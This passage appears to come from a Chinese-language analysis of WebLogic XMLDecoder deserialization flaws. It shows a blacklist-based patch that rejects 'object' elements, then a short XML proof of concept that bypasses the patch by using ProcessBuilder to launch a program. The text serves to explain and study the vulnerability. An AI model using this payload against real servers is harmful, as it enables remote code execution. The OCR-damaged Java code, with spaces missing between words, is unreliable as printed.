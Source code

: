 在调用 startElement 方法解析 XML 的过程中，如果解析到 Element 字段值为Object就抛出异常：

```
private void validate(InputStream is) {

      WebLogicSAXParserFactoryfactory = new WebLogicSAXParserFactory();

      try {

         SAXParser parser =factory.newSAXParser();

         parser.parse(is, newDefaultHandler() {

            public void startElement(String uri, StringlocalName, String qName, Attributes attributes) throws SAXException {

               if(qName.equalsIgnoreCase("object")) {

                  throw newIllegalStateException("Invalid context type: object");

               }

            }

         });

      } catch(ParserConfigurationException var5) {

         throw newIllegalStateException("Parser Exception", var5);

      } catch (SAXExceptionvar6) {

         throw newIllegalStateException("Parser Exception", var6);

      } catch (IOExceptionvar7) {

         throw newIllegalStateException("Parser Exception", var7);

      }

   }
```

但上述这类采用黑名单的防护措施很快就被如下 POC 轻松绕过，因为其中不包含任何 Object 元素，但经 XMLDecoder 解析后依旧造成了远程代码执行：

```
<java version="1.4.0" class="java.beans.XMLDecoder">

    <new class="java.lang.ProcessBuilder">

        <string>calc</string><method name="start" />

    </new>

</java>
```
